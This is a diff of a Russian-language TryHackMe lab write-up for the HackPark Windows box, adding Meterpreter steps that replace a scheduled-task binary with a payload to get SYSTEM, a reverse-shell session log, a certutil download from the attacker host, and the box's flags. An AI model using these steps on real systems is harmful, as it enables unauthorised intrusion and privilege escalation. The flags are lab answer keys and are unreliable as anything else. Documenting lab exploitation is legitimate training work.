

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Win Medium - HackPark/writeup.md, the part around one of its changes. GitHub-like rendering.

````diff
--- a/Win Medium - HackPark/writeup.md
+++ b/Win Medium - HackPark/writeup.md
@@ -262,23 +336,31 @@ certutil -urlcache -f http://10.21.104.16:8888/winPEASx64.exe winPEASany.exe
+Загружаю **meter-5555.exe** в **c:\Program Files (x86)\SystemScheduler\** вместо **Message.exe** и получаю SYSTEM
+```
+meterpreter > upload /home/kali/Labs/TryHackMe/Win\ Medium\ -\ HackPark/exploits/meter-5555.exe
+meterpreter > mv Message.exe Message.bak
+meterpreter > mv meter-5555.exe Message.exe
+meterpreter > exit
+[*] Shutting down session: 1
+
+[*] 10.10.50.38 - Meterpreter session 1 closed.  Reason: User exit
+msf6 exploit(multi/handler) > run
+
+[*] Started reverse TCP handler on 10.21.104.16:5555
+[*] Sending stage (176198 bytes) to 10.10.50.38
+[*] Meterpreter session 2 opened (10.21.104.16:5555 -> 10.10.50.38:49394) at 2025-07-04 10:50:06 -0400
+
+meterpreter > shell
+Process 2620 created.
+Channel 1 created.
+Microsoft Windows [Version 6.3.9600]
+(c) 2013 Microsoft Corporation. All rights reserved.
+
+C:\PROGRA~2\SYSTEM~1>
+```
+
 
 ## 🏁 Флаги
 
-- User flag:
-- Root flag:
+- User flag: 759bd8af507517bcfaede78a21a73e39
+- Root flag: 7e13d97f05f7ceb9881a3eb3d78d3e72
 
 ---
-
-## 📋 Резюме
-
-🧰 **Инструменты:**
-  - nmap, ffuf, и др.
-
-🚨 **Уязвимости, которые удалось обнаружить:**
-  - Directory Traversal
-  - RCE через уязвимый скрипт
-
-🛡 **Советы по защите:**
-  - Использовать сложные пароли и ограничить число попыток входа
-  - Обновлять ПО до актуальных версий
-  - Удалять/ограничивать использование SUID-бинарников
-  - Настроить логирование и мониторинг системных событий
-  - Применять принцип наименьших привилегий
````
Also changed, not shown: other parts of Win Medium - HackPark/writeup.md (+80 -6 lines).
